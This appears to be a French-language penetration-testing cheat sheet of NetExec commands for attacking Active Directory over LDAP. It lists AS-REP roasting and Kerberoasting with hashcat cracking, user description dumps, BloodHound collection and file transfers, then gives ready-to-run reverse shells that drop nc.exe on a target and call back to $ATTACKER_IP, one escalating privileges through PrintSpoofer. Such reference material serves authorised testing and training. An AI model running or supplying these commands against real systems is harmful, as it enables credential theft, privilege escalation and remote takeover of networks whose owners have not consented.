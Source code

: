 ```bash
```

#### 🔓 **Privilèges & Exécution de commandes**

```bash
# Tester ASREP Roasting (pour attaquer le protocole Kerberos)
nxc ldap $IP -u $USER -p '' --asreproast output.txt
# Cracker le hash avec hashcat
# hashcat -m18200 output.txt wordlist

# Tester Kerberoasting pour extraire des hashes de service Kerberos
nxc ldap $IP -u '$USER' -p '$PASSWORD' --kerberoasting output.txt
# Cracker les hashes avec hashcat
# hashcat -m13100 output.txt wordlist.txt

# Récupérer la description des utilisateurs
nxc ldap $IP -u '$USER' -p '$PASSWORD' -M get-desc-users

# Utiliser BloodHound pour collecter des informations sur l'AD
nxc ldap $IP -u 'users.txt' -p 'passwords.txt' --bloodhound -c all --dns-server $DNS_SERVER
```

### 📂 **Transfert de fichiers**

```bash
# Envoyer un fichier vers un serveur LDAP (exemple générique, adapter pour d'autres types de transfert)
nxc ldap $IP -u '$USER' -p '$PASSWORD' --put-file /tmp/local_file /remote/path/remote_file.txt

# Télécharger un fichier depuis un serveur LDAP (si autorisé)
nxc ldap $IP -u '$USER' -p '$PASSWORD' --get-file /remote/path/remote_file.txt /tmp/local_file
```

### 🚀 **Reverse Shell**

```bash
# Déposer un exécutable (ex: nc.exe pour un reverse shell) sur la cible
nxc ldap $IP -u '$USER' -p '$PASSWORD' --put-file nc.exe /tmp/nc.exe

# Lancer un reverse shell via netcat
nxc ldap $IP -u '$USER' -p '$PASSWORD' -x "C:\tmp\nc.exe $ATTACKER_IP 1234 -e cmd"

# Exploiter les informations d'impersonation ou les privilèges élevés si présents
nxc ldap $IP -u '$USER' -p '$PASSWORD' -x 'C:\tmp\PrintSpoofer64.exe -c "C:\tmp\nc.exe $ATTACKER_IP 1234 -e cmd"'

# Reverse Shell via PowerShell (Base64 encodé)
nxc ldap $IP -u '$USER' -p '$PASSWORD' -x '<PAYLOAD REVERSE SHELL BASE64 HERE>'
```

### 🔧 **Autres attaques LDAP et recherche d’informations sensibles**
